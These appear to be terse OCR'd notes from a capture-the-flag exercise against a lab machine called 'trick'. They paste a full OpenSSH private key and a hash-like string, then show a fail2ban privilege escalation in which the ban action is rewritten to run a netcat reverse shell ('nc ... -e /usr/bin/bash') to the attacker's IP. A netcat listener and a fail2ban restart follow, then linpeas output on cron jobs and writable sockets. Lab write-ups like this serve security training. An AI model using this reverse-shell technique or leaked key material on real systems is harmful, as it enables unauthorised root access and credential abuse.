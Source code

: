  -----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ== -----END OPENSSH PRIVATE KEY----- 

 cb0be240733ae7ef4ca7961d291664ae

 fail2ban
 modyify /etc/fail2ban/action.d/iptables-multiport.conf

 set actionban = /usr/bin/ nc 10.10.14.8 9999   -e /usr/bin/bash
 sudo nc -lnvp 9999

 on victim sudo -l
 sudo fail2ban restart

 michael@trick:/etc/init.d$ sudo ./fail2ban restart

 linpeas time

 17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )


SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

1       5       cron.daily      run-parts --report /etc/cron.daily
7       10      cron.weekly     run-parts --report /etc/cron.weekly
@monthly        15      cron.monthly    run-parts --report /etc/cron.monthly

╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets                                                                                                                      
/etc/systemd/system/sockets.target.wants/avahi-daemon.socket is calling this writable listener: /run/avahi-daemon/socket                                                                        
/usr/lib/systemd/system/avahi-daemon.socket is calling this writable listener: /run/avahi-daemon/socket
/usr/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/usr/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
/usr/lib/systemd/system/sockets.target.wants/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
/usr/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
/usr/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket